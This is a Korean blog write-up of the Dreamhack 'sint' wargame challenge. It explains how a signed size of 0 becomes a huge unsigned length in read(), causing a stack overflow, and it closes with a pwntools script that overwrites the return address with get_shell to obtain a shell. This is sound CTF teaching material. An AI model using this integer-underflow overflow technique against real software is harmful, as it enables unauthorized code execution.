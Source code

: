 ```yaml
---
layout: post
title: Pwnable | [Dreamhack] sint
subtitle: Dreamhack-Pwnable sint
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/197375925-9c65298b-94ea-4c93-a528-a1a9be80abe9.jpg" width = 500>
</p>

이 문제는 **Integer Issues**라 하는 Reference를 가지고 있고 보호기법으로 보면 NX bit만 활성화 되어 있는 것을 알 수 있다. 

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();
    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

이 코드에서는 `get_shell`을 통한 `system` 호출이 가능하다.

```C
if (size > 256 || size < 0)
{
   printf("Buffer Overflow!\n");
   exit(0);
}
```

`size`라는 변수를 int형으로 입력 받아 256보다 크거나 0보다 작으면 프로그램이 종료된다.

```C
printf("Data: ");
read(0, buf, size - 1);
```

우리가 입력받은 size보다 1만큼 작게 Data를 입력받아 `buf[256]`에 저장하는 것을 알 수 있다.

`size`변수는 int형으로 맨 앞 자리는 부호를 설정하는 값이다. 즉 -2^31 ~ 2^31-1의 범위를 가지게 된다. 

`size`가 0이고 -1을 하게 되면 컴퓨터는 2의 보수를 취해 값을 변경하게 된다.

따라서, `size - 1`를 2진수로 표현하면 **1111 1111 1111 1111**, 엄청 큰 값을 가지게 된다.

* **read 함수**

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

입력받는 크기에 해당 형은 `size_t`로 unsigned int로 부호없는 정수형이다. 즉, 2의 보수처럼 맨 앞 자리가 부호를 뜻하지 않게 된다는 것이다.

그래서 `size - 1`의 2진수의 값을 매우 큰 값으로 받아드려 BOF가 가능하게 된다.

`system`을 불러오는 `get_shell`함수도 존재하므로, 전체 크기 **0x104** + **SFP 4byte** + **get_shell 주소**로 payload를 전송하면 해결이 가능하다.

```python
from pwn import *

# p = process('./sint')
p = remote('host3.dreamhack.games', port)
elf = ELF('./sint')

get_shell = elf.symbols['get_shell']
payload = b''

p.recvuntil('Size: ')
p.sendline('0')

payload += b'A' * 0x108 + p32(get_shell)
p.recvuntil('Data: ')
p.send(payload)

p.interactive()
```